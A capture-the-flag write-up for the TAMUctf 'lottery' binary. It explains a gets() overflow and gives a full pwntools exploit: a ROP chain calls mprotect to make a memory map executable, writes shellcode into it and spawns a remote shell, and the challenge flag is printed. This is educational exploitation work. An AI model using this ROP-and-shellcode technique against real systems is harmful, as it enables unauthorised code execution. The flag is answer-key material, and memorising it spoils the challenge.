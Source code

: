 # lottery

## Description

Attack this binary and get the flag!

```nc challenges.tamuctf.com 5906```

## Solution

`gigem{3x3cu74bl3_rn6}`

Except I didn't make the rng executable, whoops!

To start, I looked at main, and we see the creation of two maps:

![figurë](7f6a8980-2090-11eb-9415-b5c86cf62423.png)

These maps are read/write only, so we can't use them for executing code (at least at first):

![figurë](b5a80900-2090-11eb-9fbf-18ef90692ca0.png)

We then enter this menu with a whole mess of options:

![figurë](e720d480-2090-11eb-8c0e-50fc820f412f.png)

A Ghidra plugin I use noted that there was a `gets` call in `ask_name`, so I looked further into that:

![figurë](0c154780-2091-11eb-9d0e-46cbe9ff8dd7.png)

Okay, so we have a ROP entry point. Bonus round: we have a region of memory which we know to be allocated (the two maps we saw earlier in main). Bonus bonus: it looks like we can enter numbers into the ENTERED_NUMBERS map (as the program checks whether or not we actually won the lottery):

![figurë](86de6280-2091-11eb-8e48-03b5111998c2.png)

(Amusingly, I never found where the map is actually written to but it doesn't really matter for our purposes)

Thus, our chain is:

1. make the ENTERED_NUMBERS map rwx
2. write shellcode into ENTERED_NUMBERS
3. jump to ENTERED_NUMBERS
4. profit

```python
from pwn import *

context.terminal = ['tilix', '-e']
context.arch = "x86_64"

elf = ELF("./lottery")
rop = ROP(elf)

# depth of the stack + extrapop in ask_name
depth = 0x48

pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi = rop.find_gadget(['pop rsi', 'ret'])[0]
pop_rdx = rop.find_gadget(['pop rdx', 'ret'])[0]
mprotect = elf.symbols['__mprotect']
menu = elf.symbols['menu']
jmp_rdx = next(elf.search(asm('jmp rdx')))

# mprotect ENTERED_NUMBERS to rwx
# fill to stack + extrapop depth
mprotect_chain = cyclic(depth)
# rdi = 0x20000000 = ENTERED_NUMBERS
mprotect_chain += p64(pop_rdi) + p64(0x20000000)
# rsi = 0x40
mprotect_chain += p64(pop_rsi) + p64(0x40)
# rdx = 0x7 = PROT_READ | PROT_WRITE | PROT_EXEC
mprotect_chain += p64(pop_rdx) + p64(0x7)
# mprotect()
mprotect_chain += p64(mprotect)
# menu()
mprotect_chain += p64(menu)

# shellcode!
shellcode = asm(shellcraft.amd64.linux.sh())
# and some padding
shellcode = shellcode + b"\0" * (0x40 - len(shellcode))

# invoke shellcode by jumping to ENTERED_NUMBERS
# fill to stack + extrapop depth
shellcode_chain = cyclic(depth)
# rdx = 0x20000000 = ENTERED_NUMBERS
shellcode_chain += p64(pop_rdx) + p64(0x20000000)
# jmp ENTERED_NUMBERS
shellcode_chain += p64(jmp_rdx)

# p = elf.debug(gdbscript="break gets\ncontinue\nfinish")
p = remote("34.123.3.89", 5906)
# p = elf.process()

# enter our "name" for mprotect chain
p.recvuntil("Action: ")
p.sendline(b"3")
p.sendline(mprotect_chain)

# enter our "numbers"
p.recvuntil("Action: ")
p.sendline(b"1")
for i in range(0, 16):
    p.recvuntil("Enter number " + str(i+1) + ": ")
    # turn 4 bytes of shellcode into an integer
    num = struct.unpack("<L", shellcode[:4])[0]
    shellcode = shellcode[4:]
    # input of program is in hex
    p.sendline(hex(num))

# enter our "name" for our shellcode execution chain
p.recvuntil("Action: ")
p.sendline(b"3")
p.sendline(shellcode_chain)
p.recvline()

# shell acquired
p.interactive()
```
